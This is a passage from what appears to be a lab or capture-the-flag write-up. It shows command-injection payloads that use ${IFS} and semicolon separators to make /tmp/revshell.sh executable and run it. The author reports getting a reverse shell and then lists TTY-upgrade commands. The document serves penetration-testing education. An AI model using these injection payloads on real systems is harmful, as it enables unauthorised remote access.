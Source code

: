Now, let’s change the permissions of the file to make it executable:

`;chmod${IFS}`755`${IFS}/tmp/revshell.sh;#`

<figure><img src="../../.gitbook/assets/Pasted image 20231013173555.png" alt=""><figcaption></figcaption></figure>

And now, let’s try to execute the script! `;/tmp/revshell.sh;#`

<figure><img src="../../.gitbook/assets/Pasted image 20231013173623.png" alt=""><figcaption></figcaption></figure>

And we obtained a **reverse shell**!

Let’s do the _**tty treatment**_:

```
script -c bash /dev/null
CTRL + Z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty columns 206 rows 52
```

Once done, let’s see with which user are we logged as:

<figure><img src="../../.gitbook/assets/Pasted image 20231013174212.png" alt=""><figcaption></figcaption></figure>
